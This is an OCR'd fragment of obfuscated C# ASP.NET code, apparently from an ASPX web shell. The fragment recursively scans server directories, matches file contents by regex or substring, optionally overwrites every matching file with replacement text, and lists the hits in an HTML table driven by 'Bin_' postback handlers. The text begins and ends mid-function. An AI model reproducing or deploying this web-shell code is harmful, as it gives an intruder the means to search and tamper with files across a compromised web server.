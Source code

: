 string ava=sr.ReadToEnd();
sr.Close();
if(rAQ.Checked)
{
if(Regex.IsMatch(ava,iaMKl.Value,RegexOptions.IgnoreCase))
{
FJvQ(Bin_Files);
if(YZw.Checked)
{
ava=Regex.Replace(ava,iaMKl.Value,qPe.Value,RegexOptions.IgnoreCase);
StreamWriter sw=new StreamWriter(Bin_Files.FullName,false,Encoding.Default);
sw.Write(ava);
sw.Close();
}
}
}
else
{
if(ava.ToLower().IndexOf(iaMKl.Value.ToLower())!=-1)
{
FJvQ(Bin_Files);
if(YZw.Checked)
{
ava=Strings.Replace(ava,iaMKl.Value,qPe.Value,1,-1,CompareMethod.Text);
StreamWriter sw=new StreamWriter(Bin_Files.FullName,false,Encoding.Default);
sw.Write(ava);
sw.Close();
}
}
}
}
}
catch(Exception ex)
{
xseuB(ex.Message);
continue;
}
}
foreach(DirectoryInfo subdir in dir.GetDirectories())
{
oog(subdir);
}
}
catch(Exception ex)
{
xseuB(ex.Message);
}
}
public void FJvQ(FileInfo objfile)
{
TableRow tr=new TableRow();
TableCell tc=new TableCell();
string bg=OKM();
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
tc.Text="&lt;a href=\"javascript:Bin_PostBack('Bin_Listdir','"+MVVJ(objfile.DirectoryName)+"')\"&gt;"+objfile.FullName+"&lt;/a&gt;";
tr.Cells.Add(tc);
tc=new TableCell();
tc.Text=objfile.LastWriteTime.ToString();
tr.Cells.Add(tc);
tc=new TableCell();
tc.Text=mTG(objfile.Length);